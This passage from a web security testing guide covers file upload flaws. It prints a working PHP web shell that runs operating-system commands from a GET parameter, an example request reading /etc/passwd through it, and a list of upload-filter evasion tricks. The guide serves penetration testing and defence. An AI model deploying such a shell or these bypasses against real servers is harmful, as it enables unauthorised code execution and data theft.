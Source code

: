 The simplest checks that an application can do are to determine that only trusted types of files can be uploaded.

#### Web Shells

If the server is configured to execute code, then it may be possible to obtain command execution on the server by uploading a file known as a web shell, which allows you to execute arbitrary code or operating system commands. In order for this attack to be successful, the file needs to be uploaded inside the webroot, and the server must be configured to execute the code.

Uploading this kind of shell onto an Internet facing server is dangerous, because it allows anyone who knows (or guesses) the location of the shell to execute code on the server. A number of techniques can be used to protect the shell from unauthorised access, such as:

-   Uploading the shell with a randomly generated name.
-   Password protecting the shell.
-   Implementing IP based restrictions on the shell.

**Remember to remove the shell when you are done.**

The example below shows a simple PHP based shell, that executes operating system commands passed to it in a GET parameter, and can only be accessed from a specific IP address:

```
<?php
    if ($_SERVER['REMOTE_HOST'] === "FIXME") { // Set your IP address here
        if(isset($_REQUEST['cmd'])){
            $cmd = ($_REQUEST['cmd']);
            echo "<pre>\n";
            system($cmd);
            echo "</pre>";
        }
    }
?>
```

Once the shell is uploaded (with a random name), you can execute operating system commands by passing them in the `cmd` GET parameter:

`https://example.org/7sna8uuorvcx3x4fx.php?cmd=cat+/etc/passwd`

#### Filter Evasion

The first step is to determine what the filters are allowing or blocking, and where they are implemented. If the restrictions are performed on the client-side using JavaScript, then they can be trivially bypassed with an intercepting proxy.

If the filtering is performed on the server-side, then various techniques can be attempted to bypass it, including:

-   Change the value of `Content-Type` as `image/jpeg` in HTTP request.
-   Change the extensions to a less common extension, such as `file.php5`, `file.shtml`, `file.asa`, `file.jsp`, `file.jspx`, `file.aspx`, `file.asp`, `file.phtml`, `file.cshtml`
-   Change the capitalisation of the extension, such as `file.PhP` or `file.AspX`
-   If the request includes multiple file names, change them to different values.
-   Using special trailing characters such as spaces, dots or null characters such as `file.asp...`, `file.php;jpg`, `file.asp%00.jpg`, `1.jpg%00.php`
-   In badly configured versions of nginx, uploading a file as `test.jpg/x.php` may allow it to be executed as `x.php`.
